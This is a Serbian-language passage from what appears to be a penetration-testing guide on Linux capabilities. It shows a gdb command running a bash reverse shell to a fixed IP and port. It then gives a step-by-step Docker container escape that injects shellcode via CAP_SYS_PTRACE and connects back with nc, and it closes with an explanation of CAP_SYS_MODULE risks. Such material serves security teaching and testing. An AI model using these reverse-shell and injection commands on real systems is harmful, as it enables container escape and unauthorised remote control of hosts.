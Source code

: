 ```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

Nećete moći videti izlaz izvršene komande, ali će se ona izvršiti od strane tog procesa (tako da dobijete reverznu ljusku).

{% hint style="warning" %}
Ako dobijete grešku "No symbol "system" in current context.", proverite prethodni primer učitavanja shell koda u program putem gdb-a.
{% endhint %}

**Primer sa okruženjem (Docker izlazak) - Ubacivanje shell koda**

Možete proveriti omogućene sposobnosti unutar Docker kontejnera koristeći:

```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```

Lista **procesa** koji se izvršavaju na **hostu** `ps -eaf`

1. Dobijanje **arhitekture** `uname -m`
2. Pronalaženje **shellcode-a** za tu arhitekturu ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. Pronalaženje **programa** za **ubacivanje** shellcode-a u memoriju procesa ([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c))
4. **Izmena** shellcode-a unutar programa i **kompajliranje** `gcc inject.c -o inject`
5. **Ubacivanje** i preuzimanje **shell-a**: `./inject 299; nc 172.17.0.1 5600`

## CAP\_SYS\_MODULE

[**`CAP_SYS_MODULE`**](https://man7.org/linux/man-pages/man7/capabilities.7.html) omogućava procesu da **učitava i uklanja kernel module (`init_module(2)`, `finit_module(2)` i `delete_module(2)` sistemski pozivi)**, pružajući direktni pristup osnovnim operacijama kernela. Ova sposobnost predstavlja ozbiljan sigurnosni rizik, jer omogućava eskalaciju privilegija i potpunu kompromitaciju sistema omogućavajući modifikacije kernela, čime se zaobilaze svi Linux mehanizmi bezbednosti, uključujući Linux Security Module i izolaciju kontejnera. **Ovo znači da možete** **ubacivati/uklanjati kernel module u/iz kernela host mašine.**
